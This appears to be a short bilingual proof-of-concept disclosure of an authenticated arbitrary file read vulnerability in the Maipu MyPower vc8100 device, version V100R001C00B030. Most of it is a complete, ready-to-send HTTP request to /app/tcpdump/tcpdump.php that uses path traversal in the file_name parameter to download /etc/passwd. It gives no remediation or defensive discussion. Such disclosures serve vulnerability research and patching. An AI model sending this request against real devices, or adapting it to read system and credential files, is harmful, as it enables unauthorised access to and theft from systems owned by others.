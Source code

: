 MyPower vc8100 ( 版本: V100R001C00B030)

The product of Maipu Communication Technology Co., Ltd.: MyPower vc8100 (version: V100R001C00B030), there is an arbitrary file reading vulnerability in the background, so you need to log in to the system before you exploit it, and use it at the function of grabbing packet files.

迈普通信技术股份有限公司的产品：MyPower vc8100 ( 版本: V100R001C00B030) 后台存在任意文件读取漏洞，利用前需要登陆系统，在抓取数据包文件功能处进行利用.

![](./1.png)

![image-20240618151340033](https://oss.wencha.cfd/img/20240618151341.png)

Program path: / app/tcpdump/tcpdump.php

```
GET /app/tcpdump/tcpdump.php?menu_uuid=02793c32-813b-4417-8201-5d5455c6c23a&a=download&file_name=../../../../../../../../../../etc/passwd HTTP/1.1
Host: 28.82.7.20
Cookie: PHPSESSID=dd9i76lp6hl9oi0ri833mv3uu2
Sec-Ch-Ua: "Chromium";v="107", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://28.82.7.20/app/tcpdump/tcpdump.php?menu_uuid=02793c32-813b-4417-8201-5d5455c6c23a
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![2](https://oss.wencha.cfd/img/20240618151322.png)